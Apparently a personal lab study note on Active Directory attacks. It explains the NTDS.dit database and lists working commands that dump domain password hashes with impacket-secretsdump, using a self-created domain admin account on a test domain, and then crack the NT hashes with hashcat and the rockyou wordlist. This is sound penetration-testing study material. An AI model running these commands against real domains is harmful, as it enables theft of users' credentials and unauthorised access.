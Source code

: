 - What is NTDS.dit?
	- Database used to **==store AD data==**:
		- **User Information**
		- Group Information
		- Security Descriptors
		- **Passwords Hashes** : )

- **We created `hawkeye` domain admin user:**
---
- `impacket-secretsdump MARVEl.local/hawkeye:'Password1@'@10.0.1.4 -just-dc-ntlm`
	- `just-dc-ntlm` : Self explanatory :)
- ![[Pasted image 20250330151828.png]]
# Cracking the hashes
---
- To crack, we only need the **NT part (later part)**
	- Store in a file, let's say `NTLM_hashes.txt`
	- `cat NTLM_hashes.txt | cut -d ":" -f4 > hashes.txt`
	- `hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt`
	- `hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt --show`
	- ![[Pasted image 20250330152511.png]]